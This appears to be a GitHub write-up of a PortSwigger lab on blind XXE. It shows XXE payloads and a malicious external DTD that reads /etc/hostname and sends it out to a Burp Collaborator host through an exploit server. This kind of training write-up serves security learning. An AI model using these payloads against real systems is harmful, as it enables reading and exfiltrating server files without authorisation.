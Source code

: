 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file. 

**NOTE**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.*

# Step 1 locate XXE in /product/stock page

Finding XML being passes to the backend

![image](https://user-images.githubusercontent.com/83407557/210391627-604e5672-88e8-415d-bca0-b474033c04de.png)

Using entity definition to get a callback

**Collaborator URL**
```html
pjcrki0vczpfctf4x2xuy1ntnktbh15q.oastify.com
```

**XXE payload**
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://pjcrki0vczpfctf4x2xuy1ntnktbh15q.oastify.com"> %xxe;]>
```

![image](https://user-images.githubusercontent.com/83407557/210392370-8f66709d-900c-4250-9731-b727c66d6b0d.png)

**Polling collaborator**

![image](https://user-images.githubusercontent.com/83407557/210392459-8acfe7db-ff34-4d7f-9708-9267d0e14f1c.png)

# Step 2 setting up attack server

In an actual test I would be setting up my own server to host the DTD file, however for this lab an attack server is provided:

![image](https://user-images.githubusercontent.com/83407557/210392708-ffeff47b-9f18-49e4-b1e1-d53c1b7e73c5.png)

![image](https://user-images.githubusercontent.com/83407557/210392837-19e7e507-44ae-42af-bf5a-b413fdc14837.png)

**DTD file**

I need this DTD to grab the target file (/etc/hostname) and exfil it to my collaborator (pjcrki0vczpfctf4x2xuy1ntnktbh15q.oastify.com)

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://pjcrki0vczpfctf4x2xuy1ntnktbh15q.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

I then add this as the payload to the attack server's /exploit page:

![image](https://user-images.githubusercontent.com/83407557/210393470-9060001a-70b4-41b9-be1d-54fed03035ce.png)

# Step 3 perform XXE via hosted DTD

Attack server URL:

`https://exploit-0a3200140399df62c2654783010d002d.exploit-server.net/exploit`

XXE payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a3200140399df62c2654783010d002d.exploit-server.net/exploit"> %xxe;]>
```
![image](https://user-images.githubusercontent.com/83407557/210394351-f22b104e-ec6b-4367-bb84-78867997f6fd.png)

# Step 4 check logs, and poll collaborator:

Checking the attack server's access logs I see that a request for /exploit was made:

![image](https://user-images.githubusercontent.com/83407557/210394598-1e81ccef-8cd4-43f5-9e9b-b6b9b295ed69.png)

Polling my collaborator I see a request containing the hostname of the target:

![image](https://user-images.githubusercontent.com/83407557/210394861-508c0375-9416-486f-9a8c-b4d2f39bd0fb.png)

# Step 5 submit hostname:

![image](https://user-images.githubusercontent.com/83407557/210394969-7b06329b-c59e-457f-82f5-f65445ff917a.png)

which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210395013-4d10095f-c191-4830-a77a-eb28983e65d6.png)


